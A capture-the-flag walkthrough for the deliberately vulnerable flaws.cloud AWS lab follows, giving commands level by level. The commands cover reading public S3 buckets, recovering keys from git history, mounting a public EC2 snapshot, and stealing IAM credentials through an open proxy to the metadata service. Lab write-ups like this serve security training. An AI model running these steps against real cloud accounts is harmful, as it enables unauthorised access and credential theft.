 
### Level 1: http://flaws.cloud

**Vulnerability:** bucket's listing access permission set to "Everyone"

```
# determine region
$ host flaws.cloud
$ host <IP>
# list bucket content
$ aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
# get interesting file
$ aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request --region us-west-2 secret-dd02c7c.html
$ cat secret-dd02c7c.html
```

### Level 2: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

**Vulnerability:** bucket's listing access permission set to "Any Authenticated AWS User"

    $ aws s3 --profile mzetAccount ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
    $ aws s3 --profile mzetAccount cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html secret-e4443fc.html

### Level 3: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud

**Vulnerability:** bucket listing access to 'Everyone' + leaking AWS keys by accidently commiting it to git repo kept in the bucket

```
$ aws s3 ls http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --no-sign-request --region us-west-2
# download content of the bucket:
$ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
# retreive secret from git history: 
$ git log 
$ git stash
$ git checkout f7cebc46b471ca9838a0bdd1074bb498a3f84c87
$ cat secret.txt
# create new profile with found AWS keys & list all available buckets for this account:
$ aws configure --profile flaws.cloud
$ aws --profile flaws.cloud s3 ls
```

### Level 4: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud

**Vulnerability:** snapshot of EC2 instance is made accessible to all AWS users (is made 'Public')

```
# identify DNS name of EC2 instance:
$ host 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

# look for snapshot of ec2-35-165-182-7.us-west-2.compute.amazonaws.com machine:

# first get identity of keys that are used (to filter snapshots only for this user)
$ aws --profile flaws.cloud sts get-caller-identity
# get all snapshots of this (owner-id) user. Note that request is done by other AWS user
$ aws --profile mzetAccount ec2 describe-snapshots --owner-id 975426262029 --region us-west-2

OR (filter by volume-id):

$ aws --profile flaws.cloud ec2 describe-instances | grep -i volumeid
# get all snapshots of this volume
$ aws --profile mzetAccount ec2 describe-snapshots --filter "Name=volume-id,Values=vol-04f1c039bc13ea950" --region us-west-2

# create volume from the snapshot:
$ aws --profile mzetAccount ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89

# In AWS Console:
# create EC2 instance with second volume (snap-0b49342abd1bdcb89) attached

# SSH into created instance:
$ ssh -i ".ssh/key.pem" <user>@<instance-ip>
$ sudo mount /dev/xvdb1 /mnt
$ cat /mnt/home/ubuntu/setupNginx.sh
```

### Level 5: http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/

**Vulnerability:** exposed proxy which doesn't restrict access to instance's meta-data server and private IP range

```
# attempt to access meta-adata via proxy
$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/

# access instance's credentials via proxy (flaws is a role with which instanse is associated)
$ curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws

# use exposed credentials (from the command above) to list level6 bucket:
$ export AWS_SESSION_TOKEN="<AWS_SESSION_TOKEN>"
$ AWS_ACCESS_KEY_ID='<AWS_ACCESS_KEY_ID>' AWS_SECRET_ACCESS_KEY='<AWS_SECRET_ACCESS_KEY>' aws s3 ls --recursive s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
```

### Level 6: level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/

**Vulnerability:** excessive perimssions ('SecurityAudit' policy) are given

```
# confirm your 'level6' identity:
$ aws --profile flaws.cloud3 iam get-user
OR
$ aws --profile flaws.cloud3 sts get-caller-identity

# run scout2 tool: 
$ python Scout2.py --profile flaws.cloud3

# identify/confirm policies attached to 'level6' user (scout2 output should catch your attention on this):
$ aws --profile flaws.cloud3 iam list-attached-user-policies --user-name Level6

# get info about 'list_apigateway' policy:
$ aws --profile flaws.cloud3 iam get-policy --policy-arn "arn:aws:iam::975426262029:policy/list_apigateways"
$ aws --profile flaws.cloud3 iam get-policy-version --policy-arn "arn:aws:iam::975426262029:policy/list_apigateways" --
version-id v4

# AWS API gateways are commonly used to run AWS Lambda managed code, let's whether that's the case here:
$ aws --region us-west-2 --profile flaws.cloud3 lambda list-functions
$ aws --region us-west-2 --profile flaws.cloud3 lambda get-policy --function-name Level6
$ aws --profile flaws.cloud3 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"

# finally, using: we can construct Lambda function URL:
https://<rest-api-id>.execute-api.<region>.amazonaws.com/<stage-name>/<function-name>
https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6

# visiting this URL reveals final link:
http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/
```
